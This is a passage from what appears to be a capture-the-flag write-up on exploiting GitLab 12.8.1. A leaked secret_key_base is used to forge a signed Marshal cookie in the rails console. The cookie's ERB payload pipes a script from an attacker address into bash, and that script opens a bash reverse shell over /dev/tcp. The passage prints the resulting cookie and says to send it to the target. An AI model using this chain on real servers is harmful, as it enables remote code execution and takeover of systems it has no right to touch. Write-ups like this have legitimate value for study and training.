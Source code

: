  
then moved the issue on the second repo. In this way i got the `secret_key_base` of gitlab that i can use for second vulnerability.

<img src="./img/secret.png"  width="650"/>




For second vulnerability i installed localy gitlab(version 12.8.1) and changed the default value of `secret_key_base` in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` with remote value. subsequently i run `gitlab-rails console` for generate a cookie.

rails console:
```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl 10.10.14.195:8000/t.sh | bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

t.sh:
>bash -i >& /dev/tcp/10.10.14.195/9090 0>&1

And obtain the follow cookie:

>BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiZCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0LjE5NTo4MDAwL3Quc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--50620b331c33a29f8263103667f196cb9ed8ae0f

now insert this cookie in the curl request
